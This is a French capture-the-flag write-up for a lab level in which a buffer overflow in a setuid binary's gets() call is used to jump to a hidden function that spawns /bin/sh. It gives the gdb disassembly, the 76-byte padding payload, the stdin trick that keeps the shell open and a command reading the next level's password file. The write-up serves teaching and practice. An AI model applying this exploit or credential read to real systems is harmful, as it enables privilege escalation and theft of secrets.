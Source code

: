 ## Comportement
- J'ai des droits `level1` que je peux vérifier en tapant `whoami`
- Un binaire est présent avec des droits différents : `-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1*`
En exécutant le binaire (`./level1`), on observe:
- qu'il attend un input de notre part.
- qu'il exit juste après notre input.
- qu'il segfault `Segmentation fault (core dumped)` si l'input est trop long.

→ Peut-être un segfault à exploiter ?


## Analyse
En analysant le binaire (`gdb ./level1`) on observe:
- La fonction appelle "gets" qui n'est pas sécurisé en cas de buffer overrun (voir `man gets`).
  ```shell
  (gdb) disas main
  ...
  0x08048490 <+16>:	call   0x8048340 <gets@plt>
  ...
  ```
- Il existe une fonction `run()` qui n'est pas appelé dans `main()` : 
  ```shell
  (gdb) i functions
  ...
  0x08048444  run
  0x08048480  main
  ...
  ```
- Dans la fonction `run()` il y a un appel système : 
  ```shell
  (gdb) disas run
  ...
  0x08048472 <+46>:	movl   $0x8048584,(%esp) # argument envoyé a la fonction system() en dessous
  0x08048479 <+53>:	call   0x8048360 <system@plt>
  ...
  ```
- Il suffit d'examiner l'adresse du paramètre envoyé a la fonction `system()` 
(situe une ligne au dessus) pour constater qu'on execute `/bin/sh`. 
Ce qui est une technique courante pour lancer un shell interactif. 
  ```shell
  (gdb) x/s 0x8048584
  0x8048584:	 "/bin/sh"
  ```


## Résolution
- Il faut trouver l'offset de l'`eip` (le pointeur du jeu d'instruction en cours) pour savoir de 
combien il faut overflow le buffer. Dans `main()` on a vu que le buffer est de 80 bytes. 
(`0x08048486 <+6>:		sub    esp,0x50`). On obtient bien un segfault : 
```shell
$ python -c 'print "A" * 80' | ./level1
Segmentation fault (core dumped)
```
- Maintenant il faut gérer le padding, c'est a dire soustraire suffisamment de bytes pour placer l'adresse 
de la fonction `run()` (`0x08048444`) que l'on veut insérer. Elle prend 4 bytes. On obtient encore un 
segfault, cette fois ce n'est pas normal car `run()` aurait du être appelé. 
```shell
$ python -c 'print "A" * 76 + "\x08\x04\x84\x44"' | ./level1
Segmentation fault (core dumped)
```
- En regardant bien la stack, on voit que l'adresse est inscrite en little endian, il faut donc l'inverser.
La fonction `run()` ets bien appelé ! On le voit grace au print "Good... Wait what?" mais ou est le shell ? 
```shell
$ python -c 'print "A" * 76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```
- Le shell a bien ete ouvert mais il exit car son process parent exit. Il existe un moyen de laisser stdin open (en utilisant `- |`). On va donc inscrire le payload dans un fichier, puis faire un `cat` de ce fichier en utilisant notre trick : 
```shell
python -c 'print "A" * 76 + "\x44\x84\x04\x08"' > /tmp/payload
cat /tmp/payload - | ./level1
Good... Wait what?
```
- Un shell s'ouvre avec de nouveaux privilèges : en effet, si l'on tape `whoami`, on obtient `level2`.
- Il ne reste plus qu'à :
  - récupérer le password (`cat /home/user/level2/.pass`)
  - quitter le shell (`exit`)
  - et passer au level2 (`su level2`) en renseignant ce password.
